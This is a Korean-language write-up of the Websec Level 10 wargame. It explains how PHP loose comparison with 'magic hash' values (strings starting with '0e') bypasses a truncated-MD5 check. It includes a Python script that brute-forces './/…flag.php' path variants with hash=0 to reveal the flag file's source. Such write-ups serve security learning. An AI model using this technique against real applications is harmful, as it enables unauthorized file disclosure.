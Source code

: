 ```yaml
---
title : "Websec - Level 10 (풀이봄)"
categories : [Wargame, Websec]
tags: ["type juggling", "magic hash", 풀이 봄]
---
```


## Level 10
<hr style="border-top: 1px solid;"><br>

``` php
if (isset ($_REQUEST['f']) && isset ($_REQUEST['hash'])) {
    $file = $_REQUEST['f'];
    $request = $_REQUEST['hash']; // default: substr(md5($flag.'index.php'.$flag),0,8) -> b4382d64
    $hash = substr (md5 ($flag . $file . $flag), 0, 8);
    echo '<div class="row"><br><pre>';
    if ($request == $hash) {
        show_source ($file);
    } 
    else {
        echo 'Permission denied!';
    }
    echo '</pre></div>';
}
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

```flag.php``` 파일을 확인을 해야하므로 ```$file``` 값은 ```flag.php```가 되고, 입력한 해쉬 값과 ```$hash``` 변수 값을 비교하는 부분을 통과를 해야함. 

여기서 ```magic hash```란 것이 있다.

```md5``` 해쉬 암호화를 했을 때, ```0e1234``` 이런 식으로 암호화 되는 경우가 있는데 ```0e```로 시작하면 그 값은 ```0```과 같음. 
: ```'0e12345' == 0 --> true```

<br>

파일 이름에 따라 ```$hash``` 값이 바뀌게 되는데 ```flag.php``` 파일은 읽어야 되므로 ```'.'``` 과 ```'/'```을 붙여줘서 브루트 포스를 하면 됨. 

<br>

한 870번 조금 넘어설때 쯤 됨.

Linux에서는 파일을 실행할 때 ./파일명 이렇게 하는데 ```'/'```의 개수가 몇 개가 있든 실행이 됨.  

<br>

```python
import requests

url='http://websec.fr/level10/index.php'
string='flag.php';
headers={'Content-Type':'application/x-www-form-urlencoded'}
for i in range(1,1000) :
    data={'f':string,'hash':0}
    res=requests.post(url,data=data,headers=headers)
    if("Permission denied!" not in res.text):
        print(res.text)
        break
    print("fail.. "+str(i)+" trying")
    string='.'+'/'*i+'flag.php'
```

<br><br>
<hr style="border: 2px solid;">
<br><br>
